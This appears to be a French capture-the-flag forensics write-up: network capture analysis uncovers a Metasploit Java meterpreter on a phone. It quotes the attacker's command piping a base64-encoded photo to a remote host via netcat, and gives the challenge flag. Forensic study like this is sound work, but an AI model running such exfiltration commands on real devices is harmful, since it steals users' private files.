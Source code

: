 Catégorie : Forensics
Difficulté : :star:

---

# C-3PO

## Ennoncé

> Pour votre première analyse, on vous confie le téléphone du PDG de GoodCorp.
> 
> Ce dernier est certain que les précieuses photos stockées sur son téléphone sont récupérées par un acteur malveillant.
> 
> Vous décidez de mettre en place une capture réseau sur le téléphone, afin de voir ce qu'il en est...
> 
> SHA256(capture.cap) = 7b63c22567098f829dfdc190b6f531bbdf23a23e222508752a0a5e5dfa28259c (61Mo).
> 
> Note : les épreuves C-3PO, R2-D2 et R5-D4 sont indépendantes

---

## Solve

On a un fichier **cap**

- export objet http --> rien
- DNS --> exfiltration dns --> rien

```shell
tcpflow -r capture.cap -o output
mv output/* > output/dump
foremost -i output/dump -o output/foremost_out/
```

On trouve dans les fichiers récuperer `classes.dex`

```
cat 00051661/classes.dex
```

On trouve que l'acteur malveillant est un **meterpreter java metasploit**

Au final pour trouver le flag avec wireshark, il suffit d'effectuer la requête : `frame contains flag` et `Suivre --> flux tcp`

![](./img/wsk_request.png)

```shell
cat /sdcard/DCIM/flag.png | base64 | nc 172.18.0.1 13387
```

On a ensuite de la base64 qu'on va transformer en une image

![](./img/flag.png)

**Flag : FCSC{2d47d546d4f919e2d50621829a8bd696d3cd1938}**